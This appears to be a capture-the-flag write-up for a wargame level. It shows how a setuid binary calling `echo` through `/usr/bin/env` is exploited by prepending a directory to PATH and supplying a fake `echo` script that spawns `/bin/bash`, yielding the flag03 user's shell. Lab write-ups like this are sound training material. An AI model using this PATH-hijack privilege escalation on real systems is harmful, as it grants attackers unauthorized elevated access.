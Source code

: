 # Level03 Writeup

## Info

User level03 has a setuid `flag03` 32bit ELF binary `level03` in their home directory.
 
## level03

Executing the file gives us the following output: `Exploit me`. Using the `string` command we can see two strings of intrest,`system` and `/usr/bin/env echo Exploit me`.

`/usr/bin/env echo Exploit me` is what is the commands being run that shows the text `Exploit me` when the binary is run. `system` is most likely the syscall that is causing this to happen.

## The exploit
 
Since `echo` is not hard coded as a path, we can define our own `echo` script and add it's location to the `PATH` environment variable like so `export PATH=/location/of/our/echo:$PATH`, wich will cause the binary to execute our own script instead of the normal one.

`echo`
``` bash
#!/bin/bash
 
/bin/bash
```

## Victory
 
Executing `level03` drops us into a shell for `flag03`, we can confirm this with `whoami`. Running `getflag` gets us the flag.
 

